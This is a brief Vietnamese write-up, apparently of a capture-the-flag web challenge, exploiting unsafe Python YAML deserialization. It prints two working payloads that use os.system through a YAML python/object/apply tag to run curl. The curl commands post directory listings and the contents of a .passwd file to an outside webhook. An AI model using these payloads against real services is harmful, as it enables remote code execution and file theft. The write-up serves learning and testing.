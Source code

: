- Khi deserialize yaml với load thì function trong data có thể sẽ thực thi nên ta sẽ đọc được file.

- thử với payload payload:

```
yaml: !!python/object/apply:os.system ['curl -X POST https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net -d "$(ls -la)"']
```

- Encode nó bằng base64 rồi gửi qua URL ta được:

![1](img/53/Screenshot%20from%202023-01-31%2016-55-40.png)

- Chỉnh sửa payload để đọc file `.passwd`:

```
yaml: !!python/object/apply:os.system ['curl -X POST https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net -d "$(cat .passwd)"']
```

![1](img/53/Screenshot%20from%202023-01-31%2016-49-19.png)
